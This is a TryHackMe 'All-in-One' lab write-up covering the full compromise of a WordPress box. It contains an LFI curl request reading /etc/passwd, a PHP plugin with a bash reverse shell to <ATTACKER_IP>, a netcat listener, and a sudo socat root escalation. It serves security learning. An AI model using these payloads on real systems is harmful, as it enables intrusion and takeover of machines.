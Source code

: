```yaml
---
layout: post
title: TryHackMe/Easy/All-in-One
abbrlink: dc7f3dbd10694b65849ee4962ebd08ad
tags:
  - wordpress
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - All in One
date: 1729783096618
updated: 1730141570442
---
```


<https://tryhackme.com/r/room/allinonemj>

# Enumeration

## \[+] 10.10.134.248 - all.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.134.248 all.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.134.248
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

There's only a default Apache page here, so we'll start fuzzing for directories and/or files to see if we can find anything else:

![bf78de9ae8174d228cd2c5baf70ca085.png](/resources/00f44738267f4abcafb3627de0fb33d4.png)

Frpm the scan results, we find a WordPress installation, the default admin portal and a directory named `/hackathons/`.

### \[-] all.thm/hackathons

Let's check this URL with a quick `curl` request:

```sh
curl -vvv all.thm/hackathons
```

Towards the end of the body of the HTML code we'll find two comments:

![027cfa446ea686fe54d4184db0d53f93.png](/resources/0fe73d29bbf141dfaff0772a9a9e6139.png)

Looking at the ciphertext `Dvc W@iyur@123` and judging from experience, the encryption method could be either ROT, Caeser or Vigenere. Since we also got a string of text with no spaces `KeepGoing` we can try that as a key. Since Vigenere cipher is the only one that requires a key, we'll try that:

![d6d39e78235401805315a28fc0e601d0.png](/resources/cb1263a0a5ab4068886cf6d004797c80.png)

### \[-] all.thm/wordpress

Here, we'll find a basic WordPress blog and a note from the room author and the username `elyana` as the post author:

![22ccbdf3eb2dc91e39a1c38eb7fa62a6.png](/resources/4c57e8cf64c542e4b9e76b735d7791cd.png)

We can also use the [WPScan](https://github.com/wpscanteam/wpscan) tool to enumerate users, plugins, themes, etc. to see if we can find any more points of entry by running the following command:

```sh
wpscan --url http://all.thm/wordpress/ -e
```

![86790c28eea6eaacf6dfcfade27178de.png](/resources/5739a92eb9184e04b2e3a4ac382cb28b.png)

Searching for "mail-masta exploit" we will find [this entry on Exploit-DB](https://www.exploit-db.com/exploits/40290) by Guillermo Garcia Marcos. In short, there are 5 endpoints for Local File Inclusion vulnerabilities where the variable `pl` directly takes user input and runs the code, in this case `include()` function which gets files from the system.

We can use the following URL to read the `/etc/passwd` file on the victim machine:

```sh
curl -vvv http://all.thm/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

![177b8207d0d881ddfc1a1a332b7af1b7.png](/resources/d1ecb53d58cd4d52b1fea20b645bc1d9.png)

I tried reading the `wp-config.php` file to see if I could find any credentials, but was unable to to access the configuration file.

# Initial Foothold

### \[-] all.thm/wordpress/wp-admin

Now that we have some valid usernames and a potential password, we can attempt to log in to the account `elyana`.

![f6b1bdbb6c8198059c1f607e83fa8fe2.png](/resources/339fd76eb8444239adc0fd47561395c8.png)

### \[-] www-data\@elyana

Using our access to the WordPress control panel, we can inject a PHP reverse shell so that we can execute commands on the victim machine.

To get a reverse shell, we can use this method from [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#plugin-rce) where we upload our PHP reverse shell as a plugin.

Create the plugin with the following code and save it as `wp-plugin.php`:

```php
/*
 * Plugin Name: Shell
 */
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'") ?>
```

Then compress it into ZIP format:

```sh
zip wp-shell.zip wp-shell.php
```

![e9c8f847fb1dcbf945b53a47e1b7dc90.png](/resources/755121782ea74f73bd99f6a6959714c2.png)

![a6038f93e6fbd329624938a475eb6abc.png](/resources/389a727b59c94ab8aefb4fcaa241b5de.png)

After uploading the ZIP file you should see this message:

![e2e59d666f8692a1133bc9610876fb18.png](/resources/3938b20ea71e453da594a6b6dff59a26.png)

Back on our attacking machine, we'll start a Netcat listener in a new terminal:

```sh
nc -nvlp 4444
```

Switch to the WordPress control panel and click the "Activate Plugin" button, the page should seem like it's loading, but if we check back to our Netcat listener, we should havea connection back from the victim machine:

![6b6e97591b44239ea8abebe8cf14c2bd.png](/resources/489c9336a1054c68aef83c9364bd7dd0.png)

Let's stablize our new shell:

1. Use Python to spawn a stable shell:

   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```

2. `CTRL+Z` to background the current shell

3. Fix echoing and foregrounds the shell:

   ```sh
   stty raw -echo;fg
   ```

4. Set terminal to use 256 colors:

   ```sh
   export TERM=xterm-256color
   ```

# Privilege Escalation

### \[-] elyana\@elyana

Let's begin by looking for any files owned by the user `elyana` by running the `find` command with the `-user` flag to search for only files owned by `elyana` and the `-type` flag set to `f` to search for files only (no directories), then send the "junk" data to `/dev/null/`:

```sh
find / -user elyana -type f 2>/dev/null
```

![215961470e9b595326e447ea9417431e.png](/resources/3773a21d7820424291bf33d55ebbf1b5.png)

First, we'll find a hint:

```sh
cat /home/elyana/hint.txt
Elyana's user password is hidden in the system. Find it ;)
```

And then we'll find the password:

![22f8615bccf166f77944b2fe87893e1c.png](/resources/90a023c5868b46cf901586b8300cc4f6.png)

We can either use the `su elyana` command to switch over or connect via SSH.

## \[+] Port 22 - SSH

To connect via SSH we run the following command, enter "yes" and provide the password when prompted:

```sh
ssh elyana@$RHOSTS
```

![19d8e0e76e85fda926fb85bf24f233c0.png](/resources/a3232eb2c943494a9c9ebe7e18c611d1.png)

We can find the user flag in `/home/elyana/user.txt`. It's base64 encoded so we'll use `base64 -d user.txt` to decode it:

![463a77ed07beec29123cfc4afc7ea801.png](/resources/35a290fa76da4ea5b593e735eedc8834.png)

### \[-] root\@elyana

Let's start by checking the sudo permissions for our current user, `elyana` by running `sudo -l`:

![3eb41166f922087c8fbe90ba818c7df4.png](/resources/7cba031d9be64c02808b7e2c8ce84b76.png)

Using [GTFObins](https://gtfobins.github.io/gtfobins/socat/#sudo), we can find a way to escalate our privleges to root by exploiting this miscofiguration:

```sh
sudo socat stdin exec:/bin/sh
```

![abcc99c3aad419b897ed7e89f41546a6.png](/resources/fa85dd20b5d646969ee79c10687e8e97.png)

We can find the root flag in `/root/root.txt`

```sh
cd /root
ls -lah
base64 -d root.txt
```

![34a7d5a1b60040d8968ab1e3377137e2.png](/resources/9e0f37c0ca274ecaacf08c11c5effe1d.png)

